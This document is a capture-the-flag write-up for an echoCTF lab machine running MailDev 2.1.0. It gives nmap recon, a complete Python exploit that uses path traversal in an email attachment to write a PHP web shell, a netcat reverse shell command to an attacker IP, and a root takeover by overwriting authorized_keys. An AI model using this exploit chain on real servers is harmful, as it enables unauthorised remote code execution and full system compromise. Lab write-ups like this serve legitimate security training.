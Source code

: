 ```yaml
---
description: >-
  Maildev echoCTF Machine
title: Maildev (Intermediate)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Maildev.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.229
```

### Content

- MailDev 2.1.0 Arbitrary File Write leading to RCE

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:36:09 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.229
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.229 ()   Status: Up
Host: 10.0.160.229 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1025/open/tcp//NFS-or-IIS///, 1080/open/tcp//socks///
```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:41:58 2025 as: nmap -p22,80,1025,1080 -sCV -n -Pn -vvvv -oN targeted 10.0.160.229
Nmap scan report for 10.0.160.229
Host is up, received user-set (0.16s latency).
Scanned at 2025-01-31 12:41:58 EST for 49s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d2:90:46:0b:0e:e5:66:59:cc:03:18:88:10:53:e6:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOxIeIjpYc2Od5GnvL0Ff26fP1aJ9bpfSlDN/KZZ7N53EQLiDv4fCcXPfU1l6Isz1MMSZdYPQbEsev4dj86/CBo=
|   256 ee:cb:b8:c8:31:c7:f5:2c:b8:89:6b:33:ad:29:7c:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICxY+jtb5JfiQu6/xe1/jy2mxXJFij2dj4sLuIKDYGd7
80/tcp   open  http    syn-ack ttl 63 nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
1025/tcp open  smtp    syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 1025
| fingerprint-strings: 
|   GenericLines: 
|     220 maildev.echocity-f.com ESMTP
|     Error: command not recognized
|     Error: command not recognized
|   GetRequest, Hello, Help: 
|     421 maildev.echocity-f.com You talk too soon
|   NULL: 
|_    220 maildev.echocity-f.com ESMTP
```

### Exploitation

There are three ports open for this machine, two of them TCP-1025 and TCP-1080 are part of the maildev software:
![](/assets/img/Pasted-image-20250131124505.png)

The HTTP port TCP-1080 as shown in the previous image displays the version running on this machine, so first step is to identify a good exploit for [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py), unfortunately this doesn't works, so with the aid of ChatGPT and after understanding the exploit I came with this exploit:
```bash
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage

# Configuration
smtp_server = "10.0.160.229" #Replace with your MailDev server
smtp_port = 1025  # Replace with the correct SMTP port
sender_email = "attacker@codegate2023.org"
recipient_email = "victim@codegate2023.org"

# Malicious JavaScript to overwrite routes.js
malicious_js = """
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
"""

# Create the multipart email
msg = MIMEMultipart("alternative")  # Using "alternative" instead of "mixed"
msg["From"] = sender_email
msg["To"] = recipient_email
msg["Subject"] = "Exploit Email"

# Attach the malicious JavaScript as plain text
malicious_part = MIMEImage(malicious_js.encode('utf-8'), _subtype="png", name="a.png")
malicious_part.add_header("Content-ID", "<../../../../var/www/html/shell.php>")
#malicious_part.add_header("Content-Disposition", "inline")
msg.attach(malicious_part)

# Send the email
with smtplib.SMTP(smtp_server, smtp_port) as server:
    server.sendmail(sender_email, recipient_email, msg.as_string())

print("Exploit email sent.")

```
An important step to consider here is that the exploit is an Arbitrary File Write, because of this, we need to know what path is going to be used to upload our shell, since the directory of the MailDev UI port is not known, the best approach is to upload our shell to the most common path of the Nginx server `/var/www/html`. After executing this exploit we have a reverse shell:

```bash
http://10.0.160.229/shell.php?cmd=whoami
```

![](/assets/img/Pasted-image-20250131125619.png)

All that lefts is to execute the reverse shell of your choice, I used:
```bash
nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
This was a privilege escalation hidden on plainsight and linpeas will not help to discover the privesc, if you do a basisc `ls -al` to the uploaded shell.php uploaded to get the revshell, you'll see that it was uploaded not as `www-data` but as root:
```bash
www-data@maildev:/var/www/html# ls -al
total 20
drwxr-xr-x 1 www-data root 4096 Jan 31 18:38 .
drwxr-xr-x 1 root     root 4096 Jan  3  2024 ..
-rw-r--r-- 1 www-data root  615 Jan  3  2024 index.nginx-debian.html
-rw-r--r-- 1 root     root   62 Jan 31 18:38 shell.php
```
Then you have Arbitrary File Write anywhere on the system, so let's upload our `authorized_keys` to the ``/root/.ssh` folder by modifing this line of code on our exploit:
```bash
# Malicious JavaScript to overwrite routes.js
malicious_js = """
ssh-ed25519 A<REDACTED>h kali@kali
"""
```
And we are inside!!!

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`


### Credentials

No credentials were identified or needed

### Notes

- The privilege escalation for this one was very tricky, all you need to do is check the permissions of the uploaded webshell from the exploitation step, you'll see that is uploaded as root, then you'll notice that you can upload any file anywhere on the system.   

### References
- [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py)


